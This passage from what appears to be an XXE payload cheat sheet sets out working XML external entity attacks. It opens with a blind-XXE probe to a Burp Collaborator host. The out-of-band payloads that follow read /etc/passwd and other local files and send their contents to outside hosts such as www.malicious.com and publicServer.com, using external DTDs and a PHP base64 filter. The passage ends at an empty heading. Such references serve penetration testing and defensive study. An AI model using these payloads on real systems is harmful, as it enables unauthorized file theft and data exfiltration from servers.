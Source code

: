 The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

Send the content of `/etc/passwd` to "www.malicious.com", you may receive only the first line.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### XXE OOB Attack (Yunusov, 2013)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

### XXE OOB with DTD and PHP filter

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

### XXE OOB with Apache Karaf
